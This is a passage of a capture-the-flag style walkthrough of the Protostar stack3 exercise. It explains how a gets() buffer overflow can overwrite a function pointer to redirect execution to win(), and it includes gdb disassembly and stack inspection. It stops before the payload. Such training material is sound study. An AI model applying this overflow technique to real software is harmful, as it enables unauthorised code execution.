 ```cpp
        fp();
    }
}
```

The code has a function declaration of `win`. The function is not called throughout the code so the challenge is to cause an overflow such that the address of the function `win` is passed onto the executable stack. The objdump -x for the executable shows that the stack has the permission of rwx. The pointer 'fp' is set to 0 after which a gets function is called which as known has the vulnerability of copying complete string passed into the memory. If 'fp' is overwritten successfully, then the if condition will turn out to be true and then 'fp' will be called which will in turn execute the function whose address is pointed by it. Therefore, the buffer needs to be overflowed with the address of the `win` function at the end overwriting the value of 'fp'. Disassembling using gdb and setting the breakpoints before and after gets statement.

```
(gdb) disas main
Dump of assembler code for function main:
0x08048438 <main+0>:        push   ebp
0x08048439 <main+1>:        mov    ebp,esp
0x0804843b <main+3>:        and    esp,0xfffffff0
0x0804843e <main+6>:        sub    esp,0x60
0x08048441 <main+9>:        mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:        lea    eax,[esp+0x1c]
0x0804844d <main+21>:        mov    DWORD PTR [esp],eax
0x08048450 <main+24>:        call   0x8048330 <gets@plt>
0x08048455 <main+29>:        cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:        je     0x8048477 <main+63>
0x0804845c <main+36>:        mov    eax,0x8048560
0x08048461 <main+41>:        mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:        mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:        mov    DWORD PTR [esp],eax
0x0804846c <main+52>:        call   0x8048350 <printf@plt>
0x08048471 <main+57>:        mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:        call   eax
0x08048477 <main+63>:        leave  
0x08048478 <main+64>:        ret    
End of assembler dump.
(gdb) break *main+24
Breakpoint 1 at 0x8048450: file stack3/stack3.c, line 18.
(gdb) break *main+29
Breakpoint 2 at 0x8048455: file stack3/stack3.c, line 20.
```

From the disassembled code, the location esp + x5c on the stack seems to be 'fp' which is set to 0. This is the value that needs to be overwritten. Running to find out start location of string using a bunch of A's, and then calculating the number needed to overwrite 'fp'.

```
(gdb) r
Starting program: /opt/protostar/bin/stack3
Breakpoint 1, 0x08048450 in main (argc=1, argv=0xbffff864) at stack3/stack3.c:18
18        stack3/stack3.c: No such file or directory.
        in stack3/stack3.c
(gdb) x/24wx $esp
0xbffff750:        0xbffff76c        0x00000001        0xb7fff8f8        0xb7f0186e
0xbffff760:        0xb7fd7ff4        0xb7ec6165        0xbffff778        0xb7eada75
0xbffff770:        0xb7fd7ff4        0x0804967c        0xbffff788        0x0804830c
0xbffff780:        0xb7ff1040        0x0804967c        0xbffff7b8        0x080484a9
0xbffff790:        0xb7fd8304        0xb7fd7ff4        0x08048490        0xbffff7b8
0xbffff7a0:        0xb7ec6365        0xb7ff1040        0x0804849b        0x00000000
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Breakpoint 2, main (argc=1, argv=0xbffff864) at stack3/stack3.c:20
```
